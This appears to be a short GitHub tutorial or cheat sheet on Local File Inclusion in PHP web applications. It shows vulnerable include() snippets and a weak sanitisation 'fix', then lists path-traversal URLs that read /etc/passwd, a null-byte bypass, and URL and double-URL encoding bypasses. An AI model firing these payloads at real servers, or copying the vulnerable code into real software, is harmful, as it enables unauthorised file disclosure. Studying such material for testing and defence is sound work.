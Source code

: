# Local File Inclusion/lfi
## @Author : M3tr1c_r00t
<li>
  <ul>An lfi is a web vulnerability which allows one to be able to view the servers files or even include other files within the root folder of the web server.
  </ul>
  <ul>An lfi can lead to information disclosure, cross-site scripting(XSS) and even rce(remote code execution).
  </ul>
  <ul>
  An lfi can occur when a server has been poorly configured or no proper sanitization practices are being observed.
  </ul>
  <ul>
  Lfi's usually occur when an application uses a path to a file as input.
  </ul>
  <ul>
  The server treats the input as trusted and is then executed.
  </ul>
  <ul>
  Other lfi's gives attackers the abilities to upload files into the server.
  </ul>
</li>

For example;
```
https://example-site.com/?module=contact.php
```
As an attacker, we can change the module part, as it being used as a path to the contact.php and try to view the internal files...

```
https://example-site.com/?module=/etc/passwd
```
### LFI Attacks
<ol>
<li>We can test for lfi vulnerable code by using "../" a couple of times 
```
https://example-site.com/?module=../../../../etc/passwd
```
<br>
The code example for this can be
```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>  
```
<br>
or 
<br>
```
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>
```
<br>
This vuln can be fixed with the below code tho its still vulnerable...
<br>
```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```
<br>
</li>

<li>
 bypass of: $_GET['param']."php"
 <br>
 In some servers, they add a definite file extension to prevent exploitation....
 <br>
 We can exploit this by adding a null byte in url encoding:
 <br>
 This only applies to php version 5.3.4 and below...
 ```
 http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
 ```
 <br>
</li>

<li>
In other cases, we can use url encoding...
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
<br>
If that doesn't work, try double url encoding...
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
</li>






